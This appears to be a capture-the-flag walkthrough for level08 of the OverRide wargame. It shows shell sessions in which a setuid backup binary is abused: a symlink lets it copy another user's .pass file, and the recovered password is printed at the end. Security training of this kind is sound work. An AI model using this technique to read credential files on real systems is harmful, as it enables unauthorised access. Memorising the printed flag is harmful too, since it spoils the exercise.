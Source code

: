 ## level08

During our investigation using gdb, it became evident that the binary takes a specific input file as a parameter. Its primary function involves generating a backup of the file within the directory "./backups" and simultaneously logging relevant information to the file named "backups/.log".

```bash
level08@OverRide:~$ echo "it just a test" > test
level08@OverRide:~$ ls -la
total 32
drwxrwxrwx+ 1 level08 level08   120 Jun 12 17:57 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--r-----+ 1 level08 level08    15 Jun 12 17:57 test
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
level08@OverRide:~$ ls
backups  level08  test
level08@OverRide:~$ ls -la backups/.log
-rwxrwx---+ 1 level09 users 0 Oct 19  2016 backups/.log
level08@OverRide:~$ ls -la backups
total 0
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
drwxrwxrwx+ 1 level08 level08 120 Jun 12 17:57 ..
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
level08@OverRide:~$ cat backups/.log
level08@OverRide:~$ ./level08 test
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: test
LOG: Finished back up test
level08@OverRide:~$ ls -la backups
total 8
drwxrwx---+ 1 level09 users    80 Jun 12 17:57 .
drwxrwxrwx+ 1 level08 level08 120 Jun 12 17:57 ..
-rwxrwx---+ 1 level09 users    55 Jun 12 17:57 .log
-r--r-----+ 1 level09 users    15 Jun 12 17:57 test
level08@OverRide:~$ cat test
it just a test
level08@OverRide:~$
```

Based on our observations, it appears that the file provided as input is indeed backed up in the "backups" directory, and the log information is stored in a file named ".log". Furthermore, the binary has the setuid permission set for the user "level09". This implies that we can potentially leverage this binary to read the contents of the ".pass" file belonging to the "level09" user.

```bash
level08@OverRide:~$ ./level08 ../level09/.pass
ERROR: Failed to open ./backups/../level09/.pass
```

it will not work like that becouase the binary concatenate the path of the file with `./backups/` so we need to use a symbolic link to bypass this

```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ls
backups  level08  password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
